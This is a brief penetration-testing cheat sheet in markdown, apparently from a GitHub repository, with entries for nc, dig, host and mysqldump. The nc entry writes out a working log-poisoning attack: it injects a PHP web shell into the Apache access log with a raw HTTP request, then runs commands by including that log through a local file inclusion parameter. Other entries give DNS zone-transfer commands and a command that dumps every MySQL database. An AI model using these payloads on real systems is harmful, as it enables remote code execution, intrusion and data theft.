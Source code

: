 # nc
- service: all
- tactics: enumeration
- tactics: inital_access

## logfile injection
```
nc target-ip target-port
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: <IP>
Connection: close
```
        
### Afterwards include the it via lfi
- `?lfi_file=/var/log/apache2/access.log&cmd=<command>`

---

# dig
- service: dns
- tactics: enumeration

## full zone transfer
- `dig -t AXFR target-dns-ip`

---

# host
- service: dns
- tactics: enumeration

## full zone transfer
- `host -l target-dns-ip`

---

# mysqldump
- service: sql
- tactics: initial_access

## backup all mysql databases
- `mysqldump -u username -ppassword --all-databases --single-transaction`

---
